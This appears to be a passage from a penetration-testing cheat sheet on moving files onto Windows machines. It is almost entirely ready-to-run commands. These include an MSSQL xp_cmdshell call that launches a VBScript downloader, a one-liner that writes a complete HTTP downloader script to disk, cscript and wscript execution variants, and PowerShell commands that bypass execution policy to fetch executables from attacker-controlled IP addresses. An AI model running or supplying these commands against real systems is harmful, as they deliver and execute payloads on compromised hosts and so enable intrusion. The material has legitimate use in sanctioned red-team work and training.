 ```
```
execute:
```
exec master..xp_cmdshell 'cmd /c "cscript C:\temp\wget.vbs http://10.0.8.2/Wmrt3333.exe C:\temp\Wmrt3333.exe"'
```
#### Method C onliner - is kind of SLOW works Win7
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs & echo StrFile = WScript.Arguments.Item(1) >> wget.vbs & echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs & echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs & echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs & echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs & echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs & echo Err.Clear >>wget.vbs & echo Set http = Nothing >> wget.vbs & echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs & echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs & echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs  & echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")>>wget.vbs & echo http.Open "GET", strURL, False >> wget.vbs  & echo http.Send >> wget.vbs & echo varByteArray = http.ResponseBody >>wget.vbs & echo Set http = Nothing >> wget.vbs & echo Set fs = CreateObject("Scripting.FileSystemObject") >>wget.vbs & echo Set ts = fs.CreateTextFile(StrFile,True) >>wget.vbs & echo strData = "" >> wget.vbs & echo strBuffer = "" >> wget.vbs & echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs  & echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs & echo Next >>wget.vbs & echo ts.Close >> wget.vbs
```
execute:
```
cmd.exe /c "cscript wget.vbs http://172.16.254.26/file.exe file.exe"
```

#### Execution variants for Downloader
```
cmd.exe /c "cd / & dir /s /b cscript.exe"
cmd.exe /c "cd / & dir /s /b wscript.exe"
cscript wget.vbs http://192.168.2.200/file.exe file.exe
wscript wget.vbs http://192.168.2.200/file.exe file.exe
```
### EXE to VBS converter in Python
* github.com/dnet/base64-vbs.py
```bash cheat filetransfer file
python base64.py input.exe output.vbs
```

## powershell

```cheat filetransfer Download using powershell
Powershell.exe -exec bypass -Command Invoke-WebRequest "http://<ip>/<filename.exe>" -OutFile "C:\<path>\<filename>.exe"
```

```bash cheat filetransfer file powershell
powershell -executionPolicy bypass  -command "& { (New-Object Net.WebClient).DownloadFile('http://192.168.2.200/file.exe', 'C:\Users\benny\Desktop\file.exe') }"
```
